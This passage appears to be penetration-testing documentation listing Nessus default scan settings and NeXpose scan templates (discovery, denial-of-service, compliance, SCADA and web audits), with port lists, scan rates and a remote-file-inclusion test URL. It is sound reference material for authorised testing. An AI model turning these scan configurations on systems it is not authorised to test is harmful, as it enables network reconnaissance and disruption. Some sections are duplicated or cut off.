| Disable if server never replies 404                                | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Root directory                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Pause between tests (s)                                            | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan CGI directories                                               | User supplied                                                     |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 1 Show redirects                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 2 Show cookies received                                   | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 3 Show all 200/OK responses                               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: 4 Show URLs which require authentication                  | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Display: V Verbose Output                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 1 Interesting File/Seen in logs                            | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 2 Misconfiguration / Default File                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 3 Information Disclosure                                   | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Tuning: 4 Injection (XSS/Script/HTML)                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Oracle Settings**\                                             | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Oracle SID                                                         | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test default accounts (slow)                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **PCI DSS Compliance**\                                          | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check for PCI-DSS compliance                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Ping the remote host**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| TCP ping destination port(s)                                       | Built-in                                                          |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an ARP ping                                                     | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do a TCP ping                                                      | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an ICMP ping                                                    | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Number of Retries (ICMP)                                           | 2                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Do an applicative UDP ping (DNS, RPCÖ)                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Make the dead hosts appear in the report                           | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Log live hosts in the report                                       | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test the local Nessus host                                         | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Fast network discovery                                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Port scanners settings**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check open TCP ports found by local port enumerators               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Only run network port scanners if local port enumeration failed    | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB Registry: Start the Registry Service during the scan**\    | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start the Registry Service during the scan                         | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB Scope**\                                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Request information about the domain                               | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB use domain SID to enumerate users**\                       | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start UID                                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End UID                                                            | 1200                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMB use host SID to enumerate local users**\                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start UID                                                          | 1000                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End UID                                                            | 1200                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SMTP settings**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Third party domain                                                 | Example.com                                                       |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| From address                                                       | nobody@example.com                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| To address                                                         | postmaster@[AUTO\_REPLACED\_IP]                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **SNMP settings**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Community name                                                     | Public                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| UDP port                                                           | 161                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 user name                                                   | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 authentication password                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 authentication algorithm                                    | MD5                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 privacy password                                            | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SNMPv3 privacy algorithm                                           | DES                                                               |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Service Detection**\                                           | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test SSL based services                                            | Known SSL ports                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Unix Compliance Checks**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Web Application Tests Settings**\                              | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable web applications tests                                      | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Maximum run time (min)                                             | 1                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Send POST requests                                                 | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Combinations of arguments values                                   | one value                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP Parameter Pollution                                           | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Stop at first flaw                                                 | Per port (quicker)                                                |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Test embedded web servers                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| URL for Remote File Inclusion                                      | http://rfi.nessus.org/rfi.txt                                     |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Web mirroring**\                                               | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Number of pages to mirror                                          | 0                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Maximum depth                                                      | 0                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start page                                                         | /                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Excluded items regex                                               | | \*                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Follow dynamic pages                                               | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Windows Compliance Checks**\                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Windows File Contents Compliance Checks**\                     | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+

Appendix E - NeXpose Default Templates
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Denial of service
^^^^^^^^^^^^^^^^^

'''Description: '''This basic audit of all network assets uses both safe
and unsafe (denial-of-service) checks. This scan does not include
in-depth patch/hotfix checking, policy compliance checking, or
application-layer auditing.

'''Why use this template: '''You can run a denial of service scan in a
preproduction environments to test the resistance of assets to denial-of
service conditions.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''80

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well known numbers + 1-1040

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''Local, patch, policy check
types

Discovery scan
^^^^^^^^^^^^^^

'''Description: '''This scan locates live assets on the network and
identifies their host names and operating systems. NeXpose does not
perform enumeration, policy, or vulnerability scanning with this
template.

'''Why use this template: '''You can run a discovery scan to compile a
complete list of all network assets. Afterward, you can target subsets
of these assets for intensive vulnerability scans, such as with the
Exhaustive scan template.

'''Device/vulnerability scan: '''Y/N

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''21, 22, 23, 25, 80, 88, 110,
111, 135, 139, 143, 220, 264, 389, 443, 445, 449, 524, 585, 636, 993,
995, 1433, 1521, 1723, 3389, 8080, 9100

'''UDP ports used for device discovery:
'''53,67,111,135,137,161,500,1701

'''Device discovery performance: '''5 ms send delay, 2 retries, 3000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''21, 22, 23, 25, 80, 110, 139, 143,220, 264,
443, 445, 449, 524, 585, 993, 995, 1433, 1521, 1723, 8080, 9100

'''TCP port scan performance: '''0 ms send delay, 25 blocks, 500 ms
block delay, 3 retries

'''UDP ports to scan: '''161, 500

'''Simultaneous port scans: '''10

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''None

Discovery scan (aggressive)
^^^^^^^^^^^^^^^^^^^^^^^^^^^

'''Description: '''This fast, cursory scan locates live assets on
high-speed networks and identifies their host names and operating
systems. NeXpose sends packets at a very high rate, which may trigger
IPS/IDS sensors, SYN flood protection, and exhaust states on stateful
firewalls. NeXpose does not perform enumeration, policy, or
vulnerability scanning with this template.

'''Why use this template: '''This template is identical in scope to the
discovery scan, except that it uses more threads and is, therefore, much
faster. The tradeoff is that scans run with this template may not be as
thorough as with the Discovery scan template.

'''Device/vulnerability scan: '''Y/N

'''Maximum # scan threads: '''25

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''21, 22, 23, 25, 80, 88, 110,
111, 135, 139, 143, 220, 264, 389, 443, 445, 449, 524, 585, 636, 993,
995, 1433, 1521, 1723, 3389, 8080, 9100

'''UDP ports used for device discovery: '''53, 67, 111, 135, 137, 161,
500, 1701

'''Device discovery performance: '''0 ms send delay, 2 retries, 3000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''21, 22, 23, 25, 80, 110, 139, 143, 220, 264,
443, 445, 449, 524, 585, 993, 995, 1433, 1521, 1723, 8080, 9100

'''TCP port scan performance: '''0 ms send delay, 25 blocks, 500 ms
block delay, 3 retries

'''UDP ports to scan: '''161, 500

'''Simultaneous port scans: '''25

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''None

Exhaustive
^^^^^^^^^^

'''Description: '''This thorough network scan of all systems and
services uses only safe checks, including patch/hotfix inspections,
policy compliance assessments, and application-layer auditing. This scan
could take several hours, or even days, to complete, depending on the
number of target assets.

'''Why use this template: '''Scans run with this template are thorough,
but slow. Use this template to run intensive scans targeting a low
number of assets.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

I'''CMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''80

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''NeXpose determines optimal method

'''TCP optimizer ports: '''21, 23, 25, 80, 110, 111, 135, 139, 443, 445,
449, 8080

'''TCP ports to scan: '''All possible (1-65535)

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''None

Full audit
^^^^^^^^^^

'''Description: '''This full network audit of all systems uses only safe
checks, including network-based vulnerabilities, patch/hotfix checking,
and application-layer auditing. NeXpose scans only default ports and
disables policy checking, which makes scans faster than with the
Exhaustive scan. Also, NeXpose does not check for potential
vulnerabilities with this template.

'''Why use this template: '''This is the default NeXpose scan template.
Use it to run a fast, thorough vulnerability scan right "out of the
box."

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''80

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well known numbers + 1-1040

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''Policy check type

HIPAA compliance
^^^^^^^^^^^^^^^^

'''Description: '''NeXpose uses safe checks in this audit of compliance
with HIPAA section 164.312 ("Technical Safeguards"). The scan will flag
any conditions resulting in inadequate access control, inadequate
auditing, loss of integrity, inadequate authentication, or inadequate
transmission security (encryption) .

'''Why use this template: '''Use this template to scan assets in a
HIPAA-regulated environment, as part of a HIPAA compliance program.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''80

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well known numbers +

1-1040

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''None

Internet DMZ audit
^^^^^^^^^^^^^^^^^^

'''Description: '''This penetration test covers all common Internet
services, such as Web, FTP, mail (SMTP/POP/IMAP/Lotus Notes), DNS,
database, Telnet, SSH, and VPN. NeXpose does not perform in-depth
patch/hotfix checking and policy compliance audits will not be
performed.

'''Why use this template: '''Use this template to scan assets in your
DMZ.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''N

'''TCP ports used for device discovery: '''None

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well-known numbers

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''None

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''DNS, database, FTP, Lotus Notes/Domino, Mail, SSH, TFTP,
Telnet, VPN, Web check categories

'''Specific vulnerability checks disabled: '''None

Linux RPMs
^^^^^^^^^^

'''Description: '''This scan verifies proper installation of RPM patches
on Linux systems. For optimum success, use administrative credentials.

'''Why use this template: '''Use this template to scan assets running
the Linux operating system.

'''Device/vulnerability scan: '''Y/Y

'''Maximum '''# scan threads: 10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''22, 23

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''22, 23

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''None

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''RPM check type

'''Specific vulnerability checks disabled: '''None

Microsoft hotfix
^^^^^^^^^^^^^^^^

'''Description: '''This scan verifies proper installation of hotfixes
and service packs on Microsoft Windows systems. For optimum success, use
administrative credentials.

'''Why use this template: '''Use this template to verify that assets
running Windows have hotfix patches installed on them.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''135, 139, 445, 1433, 2400

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''135, 139, 445, 1433, 2433

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''None

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''Microsoft hotfix check type

'''Specific vulnerability checks disabled: '''None

Payment Card Industry (PCI) audit
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

'''Description: '''This audit of Payment Card Industry (PCI) compliance
uses only safe checks, including network-based vulnerabilities,
patch/hotfix verification, and application-layer testing. NeXpose scans
all TCP ports and well-known UDP ports. NeXpose does not perform policy
checks.

'''Why use this template: '''Use this template to scan assets as part of
a PCI compliance program.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''22, 23, 25, 80, 443

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''All possible (1-65535)

'''TCP port scan performance: '''1 ms send delay, 5 blocks, 15 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''Policy check types

Penetration test
^^^^^^^^^^^^^^^^

'''Description: '''This in-depth scan of all systems uses only safe
checks. Host-discovery and network penetration features allow NeXpose to
dynamically detect assets that might not otherwise be detected. NeXpose
does not perform in-depth patch/hotfix checking, policy compliance
checking, or application-layer auditing .

'''Why use this template: '''With this template, you may discover assets
that are out of your initial scan scope. Also, running a scan with this
template is helpful as a precursor to conducting formal penetration test
procedures.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''21, 22, 23, 25, 80, 443, 8080

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''NeXpose determines optimal method

'''TCP optimizer ports: '''21, 23, 25, 80, 110, 111, 135, 139, 443, 445,
449, 8080

'''TCP ports to scan: '''Well known numbers + 1-1040

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''Local, patch, policy check
types

Penetration test
^^^^^^^^^^^^^^^^

'''Description: '''This in-depth scan of all systems uses only safe
checks. Host-discovery and network penetration features allow NeXpose to
dynamically detect assets that might not otherwise be detected. NeXpose
does not perform in-depth patch/hotfix checking, policy compliance
checking, or application-layer auditing.

'''Why use this template: '''With this template, you may discover assets
that are out of your initial scan scope. Also, running a scan with this
template is helpful as a precursor to conducting formal penetration test
procedures.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''21, 22, 23, 25, 80, 443, 8080

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''NeXpose determines optimal method

'''TCP optimizer ports: '''21, 23, 25, 80, 110, 111, 135, 139, 443, 445,
449, 8080

'''TCP ports to scan: '''Well known numbers + 1-1040

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''Local, patch, policy check
types

Safe network audit
^^^^^^^^^^^^^^^^^^

'''Description: '''This non-intrusive scan of all network assets uses
only safe checks. NeXpose does not perform in-depth patch/hotfix
checking, policy compliance checking, or application-layer auditing.

'''Why use this template: '''This template is useful for a quick,
general scan of your network.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''80

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well known numbers + 1-1040

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

**Specific vulnerability checks enabled (which disables all other
checks)**: None

'''Specific vulnerability checks disabled: '''Local, patch, policy check
types

Sarbanes-Oxley (SOX) compliance
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

'''Description: '''This is a safe-check

Sarbanes-Oxley (SOX) audit of all systems. It detects threats to digital
data integrity, data access auditing, accountability, and availability,
as mandated in Section 302 ("Corporate Responsibility for Fiscal
Reports"), Section 404 ("Management Assessment of Internal Controls"),
and Section 409 ("Real Time Issuer Disclosures") respectively.

'''Why use this template: '''Use this template to scan assets as part of
a SOX compliance program.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''80

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well known numbers + 1-1040

SCADA audit
^^^^^^^^^^^

'''Description: '''This is a "polite," or less aggressive, network audit
of sensitive Supervisory Control And Data Acquisition (SCADA) systems,
using only safe checks. Packet block delays have been increased; time
between sent packets has been increased; protocol handshaking has been
disabled; and simultaneous network access to assets has been restricted.

'''Why use this template: '''Use this template to scan SCADA systems.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''5

'''ICMP (Ping hosts): '''Y

'''TCP ports used for device discovery: '''None

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''10 ms send delay, 3 retries, 2000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well known numbers + 1-1040

'''TCP port scan performance: '''10 ms send delay, 10 blocks, 10 ms
block delay, 4 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: **Policy check type**\ TCP
port scan performance: '''0 ms send delay, 10 blocks, 10 ms block delay,
5 retries

'''UDP ports to scan: '''Well-known numbers

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''None

'''Specific vulnerability checks disabled: '''None

Web audit
^^^^^^^^^

'''Description: '''This audit of all Web servers and Web applications is
suitable public-facing and internal assets, including application
servers, ASP's, and CGI scripts. NeXpose does not perform patch checking
or policy compliance audits. Nor does it scan FTP servers, mail servers,
or database servers, as is the case with the DMZ Audit scan template.

'''Why use this template: '''Use this template to scan public-facing Web
assets.

'''Device/vulnerability scan: '''Y/Y

'''Maximum # scan threads: '''10

'''ICMP (Ping hosts): '''N

'''TCP ports used for device discovery: '''None

'''UDP ports used for device discovery: '''None

'''Device discovery performance: '''5 ms send delay, 4 retries, 1000 ms
block timeout

'''TCP port scan method: '''Stealth scan (SYN)

'''TCP optimizer ports: '''None

'''TCP ports to scan: '''Well-known numbers

'''TCP port scan performance: '''0 ms send delay, 10 blocks, 10 ms block
delay, 5 retries

'''UDP ports to scan: '''None

'''Simultaneous port scans: '''5

'''Specific vulnerability checks enabled (which disables all other
checks): '''Web category check

'''Specific vulnerability checks disabled: '''None
